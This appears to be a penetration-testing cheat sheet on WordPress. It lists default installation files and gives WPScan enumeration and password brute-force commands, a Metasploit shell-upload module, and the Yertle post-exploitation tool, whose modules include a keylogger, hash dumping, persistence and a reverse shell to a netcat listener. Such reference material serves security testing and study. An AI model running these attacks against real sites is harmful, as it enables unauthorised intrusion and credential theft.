 # Web applications - CMS WordPress

WordPress is a free and open-source content management system (CMS) developed by
the WordPress.org foundation and based on PHP and MySQL.

WordPress is, by far, the most popular website management system in use with a
CMS market share of nearly sixty percent and used by more than 60 million
websites, including 30.6% of the top 10 million websites as of April 2018.

WordPress' plugin architecture allows users to extend the features and
functionality of a website or blog. As of March 2017, WordPress has over
55,286 plugins available.

### WordPress default URL

The following files and directories can be found on a default installation of
WordPress:

```
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-app.php
wp-atom.php
wp-blog-header.php
wp-comments-post.php
wp-commentsrss2.php
wp-config-sample.php
wp-content
wp-cron.php
wp-feed.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-pass.php
wp-rdf.php
wp-register.php
wp-rss2.php
wp-rss.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
...
```

Refer to the SecLists' `Discovery/Web-Content/CMS/wordpress.fuzz.txt` wordlist
for a more exhaustive list of URL.

### WPScan

WPScan is a well-known vulnerability scanner written in Ruby for WordPress
which focus on vulnerabilities in WordPress core, themes, and plugins.

The WPScan vulnerability database is public and count, as of December 2018,
11665 vulnerabilities. The database is hosted on the following host:

```
https://wpvulndb.com/
```

Usage:

```
# Update the WordPress Core, themes and plugins vulnerability database
wpscan --update

wpscan --url <URL>

# Enumerate installed plugins | themes | users | timthumbs
wpscan --url <URL> --enumerate < p | t | u | tt >

# Wordlist password brute force on enumerated users using 50 threads
wpscan --url <URL> --wordlist <WORDLIST_PASSWORDS> --threads 50

# Wordlist usernames and password brute force using 50 threads
wpscan <URL> (--username <USERNAME> | --usernames <WORDLIST_USERNAMES>) --wordlist <WORDLIST_PASSWORDS> --threads 50
```

### Administrator to RCE

The tools presented below require valid WordPress administrator credentials.

###### Metasploit

The Metasploit module `exploit/unix/webapp/wp_admin_shell_upload` can be used
to generate a plugin packed with a Metasploit payload and upload it to the
WordPress server.

```
msf> use exploit/unix/webapp/wp_admin_shell_upload
```

###### WPForce Yertle

Part of the WPForce suite of Wordpress attack tools, Yertle is a WordPress
post-exploitation python script.

The following modules are implemented:

```
beef            Injects a BeEF hook into website
dbcreds         Prints the database credentials
exit            Terminate the session
hashdump        Dumps all WordPress password hashes
help            Help menu
keylogger       Patches WordPress core to log plaintext credentials
keylog          Displays keylog file
meterpreter     Executes a PHP meterpreter stager to connect to metasploit
persist         Creates an admin account that will re-add itself
quit            Terminate the session
shell           Sends a TCP reverse shell to a netcat listener
stealth         Hides Yertle from the plugins page
```

Usage:

```
# Bind OS shell including the modules above
python yertle.py -u <USERNAME> -p <PASSWORD> -t <URL> -i
os-shell> help | hashdump | persist | whoami | ...

# Reverse OS shell - works with a netcat listener
python yertle.py -u <USERNAME> -p <PASSWORD> -t <URL> -r -li <LHOST> -lp <LPORT>
```
